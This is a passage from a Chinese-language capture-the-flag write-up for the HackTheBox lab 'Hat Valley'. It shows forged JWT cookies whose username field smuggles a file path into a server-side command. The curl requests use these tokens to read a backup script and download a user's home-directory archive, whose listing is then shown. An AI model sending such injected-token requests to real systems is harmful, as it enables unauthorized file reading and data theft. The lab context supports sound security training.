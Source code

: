 
  

大概在98行，看到有

  

  * 

    
    
    alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'

  

尝试用JWT去读`/home/bean/Documents/backup_home.sh`

  

  *   *   *   *   *   *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop]└─# curl http://hat-valley.htb/api/all-leave --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cF9ob21lLnNoICciLCJpYXQiOjE2Nzc4MjAwNzN9.FeikFTrIWzIe5LAJnPRZGH_Z7B1RLpfKJ4saxf9T74s"#!/bin/bashmkdir /home/bean/Documents/backup_tmpcd /home/beantar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .date > /home/bean/Documents/backup_tmp/time.txtcd /home/bean/Documents/backup_tmptar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .rm -r /home/bean/Documents/backup_tmp

  

看到有`/home/bean/Documents/backup/bean_backup_final.tar.gz`

再用JWT去读，并且用curl把他输出到本地

  

  *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop]└─# curl http://hat-valley.htb/api/all-leave --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cC9iZWFuX2JhY2t1cF9maW5hbC50YXIuZ3ogJyIsImlhdCI6MTY3NzgyMDA3M30.wArGs4nDtEexKppqgQ1gHSOrq1y91D486JBYTpN4f7E" --output bean_backup_final.zip  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed100 31716  100 31716    0     0  20265      0  0:00:01  0:00:01 --:--:-- 20265

  

unzip不行，直接双击打开，把文件拖出来，依次得到如下图文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193107.png)

解压bean_backup.tar.gz得到以下文件

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop/bean_backup]└─# ls -latotal 72drwxr-x--- 15 1001 1001 4096 Sep 15 07:45 .drwxr-x---  3 1001 1001 4096 Mar  3 04:19 ..lrwxrwxrwx  1 1001 1001    9 Sep 15 07:40 .bash_history -> /dev/null-rw-r--r--  1 1001 1001  220 Sep 15 07:34 .bash_logout-rw-r--r--  1 1001 1001 3847 Sep 15 07:45 .bashrcdrwx------ 12 1001 1001 4096 Sep 15 07:41 .configdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Desktopdrwxr-xr-x  4 1001 1001 4096 Sep 15 07:46 Documentsdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Downloadsdrwx------  2 1001 1001 4096 Sep 15 07:36 .gnupgdrwx------  3 1001 1001 4096 Sep 15 07:35 .localdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Musicdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Pictures-rw-r--r--  1 1001 1001  807 Sep 15 07:34 .profiledrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Publicdrwx------  3 1001 1001 4096 Sep 15 07:35 snapdrwx------  2 1001 1001 4096 Sep 15 07:36 .sshdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Templatesdrwxr-xr-x  2 1001 1001 4096 Sep 15 07:35 Videos
